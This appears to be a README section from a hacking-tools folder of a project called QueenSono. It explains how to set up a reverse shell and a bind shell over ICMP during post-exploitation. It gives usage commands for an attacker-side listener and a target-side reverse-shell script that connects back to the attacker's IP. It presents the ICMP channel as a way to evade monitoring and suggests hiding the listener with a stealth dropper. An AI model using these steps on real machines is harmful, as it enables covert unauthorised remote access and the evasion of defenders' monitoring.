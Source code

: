 # Hack

Some fun things using `QueenSono`

## Reverse Shell
<h5 align="center">In <code>QueenSono/hack/reverse-shell</code></h5>

<p align="center"><i> It a "reverse shell" trough ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** if ICMP is less monitored than other protocol (eg TCP), having a reverse shell trough `QueenSono` is more more stealthy.

#### How to do it
*> On the attacker machine:* Put your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the target machine:* Provide the reverse shell
```
./reverse-shell.sh <ip_attacker> <ip_listening_for_icmp>
```


### Bindshell

Sometimes, and for the ***post exploitation*** phase it is more suited, you need a bind shell. That is to say the `listener` will be on the "compromised" machine and the attacker machine will "bind" to this shell.

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Could I adapt it to use ICMP ? 🤔*
